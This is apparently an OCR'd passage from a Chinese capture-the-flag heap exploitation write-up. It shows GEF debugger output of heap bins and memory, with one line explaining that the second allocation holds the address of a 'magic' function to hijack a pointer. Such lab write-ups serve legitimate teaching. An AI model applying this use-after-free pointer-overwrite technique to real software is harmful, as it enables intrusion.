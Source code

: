 	────────────────────────────────────────── Unsorted Bin for arena 'main_arena' ──────────────────────────────────────────

	[+] Found 0 chunks in unsorted bin.

	─────────────────────────────────────────── Small Bins for arena 'main_arena' ───────────────────────────────────────────

	[+] Found 0 chunks in 0 small non-empty bins.

	─────────────────────────────────────────── Large Bins for arena 'main_arena' ───────────────────────────────────────────

	[+] Found 0 chunks in 0 large non-empty bins.

	gef➤ x/70ag 0x09f6d160

	0x9f6d160: 0x0 0x0

	0x9f6d170: 0x0 0x0

	0x9f6d180: 0x0 0x0

	0x9f6d190: 0x0 0x0

	0x9f6d1a0: 0x804865b 0x0

	0x9f6d1b0: 0x9f6d170 0x0

	0x9f6d1c0: 0x0 0x0

	0x9f6d1d0: 0x0 0x0

	0x9f6d1e0: 0x0 0x0

第二次malloc是我们输入的内容为magic函数的地址

	gef➤ heap bins

	──────────────────────────────────────────── Tcachebins for arena 0xf7f567a0 ────────────────────────────────────────────

	Tcachebins[idx=4, size=0x28] count=0 ← Chunk(addr=0x9f6d1b0, size=0x30,
	flags=PREV_INUSE) ← Chunk(addr=0x9f6d170, size=0x30, flags=PREV_INUSE)

	───────────────────────────────────────────── Fastbins for arena 0xf7f567a0 ─────────────────────────────────────────────

	Fastbins[idx=0, size=0x8] 0x00

	Fastbins[idx=1, size=0x10] 0x00

	Fastbins[idx=2, size=0x18] 0x00

	Fastbins[idx=3, size=0x20] 0x00

	Fastbins[idx=4, size=0x28] 0x00

	Fastbins[idx=5, size=0x30] 0x00

	Fastbins[idx=6, size=0x38] 0x00

	────────────────────────────────────────── Unsorted Bin for arena 'main_arena' ──────────────────────────────────────────
